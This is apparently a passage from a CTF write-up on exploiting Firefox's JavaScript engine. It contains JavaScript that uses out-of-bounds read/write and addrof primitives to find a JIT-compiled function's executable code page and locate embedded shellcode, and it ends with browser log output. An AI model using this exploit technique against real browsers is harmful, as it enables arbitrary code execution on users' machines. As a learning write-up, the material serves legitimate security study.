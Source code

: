 ```js
function jitme () {
    // ...
}

for (let i = 0; i < 100000; i++) {
    jitme();
}
```

The second part is a bit more tricky. JavaScript functions are represented by a
JSFunction, and we can find the region containing the compiled code for that
function by following pointers, like this (pointers to executable memory are
highlighted in red):

![](outfoxed1.png)

We can get the address of the function by storing it into our TypedArray with
`oob` and then reading the address back, then follow the pointers until the
code pointer. However the code pointer doesn't exactly point to the beginning
of the function, but rather to some other place in the same page. The author of
the writeup that I got the shellcode from solves this by embedding a magic
number in the shellcode and then searching for it using the arbitrary read/write.
We'll do the same.

```js
// Read size bytes from addr
function read(addr, size) {
    assert(size % 8n === 0n);
    let ret = new BigUint64Array(Number(size) / 8);
    for (let i = 0n; i < size / 8n; i++) {
        ret[i] = read64(addr + i * 8n)
    }
    return new Uint8Array(ret.buffer);
}

const addrof_jitme = addrof(jitme);
const codepage_addr = read64(read64(addrof_jitme + 0x28n)) & 0xfffffffffffff000n;
print(`addrof(jitme) = ${hex(addrof_jitme)}`);
print(`code page at = ${hex(codepage_addr)}`);

const code = read(codepage_addr, 0x1000n);

let stage1_offset = -1;
for (let i = 0; i < 0x1000 - 8; i++) {
    if (code[i] == 0x37 && code[i + 1] == 0x13 && code[i + 2] == 0x37
        && code[i + 3] == 0x13 && code[i + 4] == 0x37 && code[i + 5] == 0x13
        && code[i + 6] == 0x37 && code[i + 7] == 0x13) {
        stage1_offset = i + 14;
        break;
    }
}

assert(stage1_offset !== -1);
const stage1_addr = BigInt(stage1_offset) + codepage_addr;
print(`stage1_addr = ${hex(stage1_addr)}`);
```

[GFX1-]: glxtest: libpci missing
[GFX1-]: glxtest: libGL.so.1 missing
[GFX1-]: glxtest: libEGL missing
[GFX1-]: No GPUs detected via PCI
[GFX1-]: RenderCompositorSWGL failed mapping default framebuffer, no dt